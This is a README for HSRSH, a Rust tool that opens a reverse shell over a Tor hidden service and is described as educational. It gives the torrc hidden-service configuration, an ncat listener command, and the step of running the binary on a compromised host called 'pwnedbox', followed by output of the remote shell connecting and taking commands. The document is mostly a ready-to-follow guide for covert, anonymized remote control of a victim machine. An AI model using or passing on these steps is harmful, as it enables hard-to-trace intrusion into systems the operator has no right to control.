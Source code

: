 # HSRSH

Hidden Service Reverse Shell, aka HSRSH

This was a quickly written tool for demonstrating a reverse shell over a hidden service all in
one binary and an excuse to play with Rust and solely for educational purposes.

1. Configure your hidden service on server you will be accepting the shell connection on. Add this to your torrc

  ```
    HiddenServiceDir /var/lib/tor/hidden_service/
    HiddenServicePort 1337 127.0.0.1:1337
  ```

2. Start listener on the hidden service. MAKE SURE TO ONLY ALLOW LOCALHOST CONNECTIONS

  ```
    user@localhost:~$ ncat --allow 127.0.0.1 -nvl 127.0.0.1 -p 1337
    Ncat: Listening on 0.0.0.0:1337
  ```

3. Execute reverse shell binary, it will create a local tor instance and connect to your listener. This takes about 15 seconds.
    ```
    user@pwnedbox:~$ ./hsrsh
    ```

4. If everything is setup properly your shell should connect after about 20 seconds or so assuming the tor and internet connection is stable.

  ```    
    user@localhost:~$ ncat --allow 127.0.0.1 -nvlp 1337
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: Listening on :::1337
    Ncat: Listening on 0.0.0.0:1337
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:45964.
    user@pwnedbox:~$ uptime
     13:37:02 up 16 days, 46 min,  1 user,  load average: 0.82, 0.93, 1.43
  ```

To do:
    - support tls
    - windows support
    - Better / more Rust-like error handling

Things that I read that helped me out a lot with this:
- https://github.com/isdrupter/onionslicer
- https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
